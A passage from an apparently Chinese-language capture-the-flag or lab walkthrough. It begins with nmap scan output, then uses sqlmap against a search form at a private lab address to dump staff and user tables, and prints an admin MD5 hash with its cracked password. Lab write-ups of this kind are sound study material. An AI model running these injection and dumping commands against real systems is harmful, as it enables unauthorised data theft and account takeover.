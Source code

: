 ```
Initiating NSE at 22:39
Completed NSE at 22:39, 0.01s elapsed
Initiating NSE at 22:39
Completed NSE at 22:39, 0.00s elapsed
Initiating NSE at 22:39
Completed NSE at 22:39, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

## 0x03 渗透

使用浏览器访问http://172.16.89.10，发现一个搜索和登陆功能，先试试搜索功能有没有sql注入，使用burp抓搜索包

![image-20211007224804392](/assets/img/image-20211007224804392.png)

将请求内容保存到request.txt中，使用sqlmap进行扫描

```
sqlmap -r request.txt --dbs
```

发现存在sql注入，进一步扫描

```
sqlmap -r request.txt -D Staff --tables
sqlmap -r request.txt -D Staff -T Users --dump
sqlmap -r request.txt -D Staff -T StaffDetails --dump

sqlmap -r request.txt -D users --tables
sqlmap -r request.txt -D Staff -T UserDetails --dump
```

UserDetails表下发现一些用户名密码

![image-20211007231327154](/assets/img/image-20211007231327154.png)

StaffDetails表下发现员工信息

![image-20211007231017283](/assets/img/image-20211007231017283.png)

Users表下发现admin账号和密码hash

```
admin：856f5de590ef37314e7c3bdf6f8a66dc
```

似乎是md5，进行md5解密，得到密码*transorbital1*

![image-20211007225413206](/assets/img/image-20211007225413206.png)

使用发现的账号密码登陆
